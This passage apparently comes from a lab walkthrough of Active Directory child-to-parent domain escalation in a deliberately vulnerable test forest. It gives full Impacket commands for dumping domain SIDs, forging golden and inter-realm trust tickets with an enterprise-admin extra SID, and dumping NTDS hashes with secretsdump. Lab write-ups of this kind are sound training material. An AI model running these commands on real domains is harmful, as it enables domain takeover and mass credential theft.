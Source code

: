 - Now get the child and parent domain SID
```
# dump child domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11 0

[*] Domain SID is: S-1-5-21-638448100-4005671799-261795860

# dump parent domain SID 
lookupsid.py  -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.10 0

[*] Domain SID is: S-1-5-21-1409754491-4246775990-3914137275
```

- And now create the golden ticket : we add “-519” at the end of the extra-sid (means enterprise admin) 
```
ticketer.py -nthash 13354bc6e1b48fff8d66a2090e909b27 \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 goldenuser
```

- And we use the ticket to dump the parent domain NTDS
```
secretsdump -k -no-pass -just-dc-ntlm \
 north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local
```

### Trust ticket - forge inter-realm TGT
Another way to escalate from child to parent is by extracting the trust key and use it to create our trust ticket (a very good explanation and examples with Mimikatz can be found here : https://adsecurity.org/?p=1588)

- The trust key can be found by targeting the netbios name of the domain on the ntds
```
secretsdump -just-dc-user 'SEVENKINGDOMS$' \
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11
```

- Now we got the trust key we can forge the ticket just like we done with the krbtgt user hash but this time we will set the spn : krbtgt/parent_domain
```
ticketer.py -nthash cef54bd576fc6054870d8d8cea5c069c \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 -spn krbtgt/sevenkingdoms.local trustfakeuser
```

- Now we will use the forged TGT to ask a ST on the parent domain
```
export KRB5CCNAME=/workspace/trusts/trustfakeuser.ccache   
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustfakeuser@sevenkingdoms.local -debug
```
